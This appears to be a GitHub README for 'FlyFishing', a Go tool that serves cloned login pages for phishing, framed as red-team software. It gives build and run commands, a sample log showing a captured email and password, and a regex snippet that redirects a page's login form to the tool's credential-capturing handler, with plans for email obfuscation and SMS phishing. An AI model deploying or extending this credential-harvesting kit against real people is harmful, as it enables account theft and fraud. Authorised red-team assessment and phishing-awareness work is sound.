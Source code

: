 # FlyFishing 🎣
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. 

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# Usage 🎯
Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html)

# Todo 🧾
* Location Detection HTML5 Geolocation [ ]
* Email Creation and Obfuscation [ ]
* SMS capabilities [ ]
* Multi-Stage Phishing Support [ ]


# But why FlyFishing? 🤔
After a previous phishing assessment, I wanted to highlight the ease of spinning up cloned phishing pages within around 20 minutes from start to finish. This would allow anyone with limited time to get crackin' wit creds! 🔥


# Credits 🪙
Templates: https://github.com/htr-tech/zphisher/tree/master/.sites

# Disclaimer 🚩
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.